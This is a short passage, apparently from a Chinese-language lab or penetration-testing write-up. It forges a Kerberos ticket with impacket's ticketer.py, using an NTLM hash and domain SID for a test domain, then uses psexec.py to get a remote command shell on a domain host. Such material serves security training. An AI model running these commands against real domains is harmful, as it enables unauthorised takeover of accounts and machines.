 ![image-20230115153637689](../../images//image-20230115153637689.png)

```
dir 确认权限
```



使用impacket进行测试：（测试前将kali指向至AD域的DNS）

```
python3 ticketer.py -nthash 72a43883e0149a585685b648399c6d40 -domain-sid S-1-5-21-4260809481-1314229568-1029525523 -domain fsec.cn administrator
```

![image-20230115171951424](../../images//image-20230115171951424.png)

```
export KRB5CCNAME=test1.ccache
python3 psexec.py -k -n fsec.cn/test1@2008-1 cmd
```

